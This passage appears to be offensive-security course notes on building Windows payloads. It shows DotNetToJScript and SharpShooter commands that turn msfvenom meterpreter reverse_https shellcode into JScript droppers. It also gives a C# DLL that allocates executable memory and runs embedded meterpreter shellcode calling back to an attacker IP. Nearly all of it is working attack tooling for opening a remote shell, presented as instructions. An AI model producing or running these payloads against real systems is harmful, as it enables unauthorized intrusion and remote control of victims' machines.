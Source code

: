 Copy `DotNetToJscript.exe` and `NDesk.Options.dll` to the `C:\Tools` folder > Copy `ExampleAssembly.dll` to `C:\Tools`.

```bat
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```

## SharpShooter

[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) is "a payload creation framework for the retrieval and execution of arbitrary C# source code".

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f raw -o shell.txt
```

```bash
sharpshooter --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test
```

## Reflective Load

Choose `Class Library (.Net Framework)` to create a managed DLL when we compile
 

```csharp
using System;
using System.Runtime.InteropServices;


namespace ReflectiveLoad
{
    public class Class1
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void runner()
        {
            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.179 LPORT=443 EXITFUNC=thread -f csharp
            byte[] buf = new byte[722] {0x06, 0xb2, 0x79, 0x1e, 0x0a, 0x12, 0x36, 0xfa, ..., 0x2f};

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
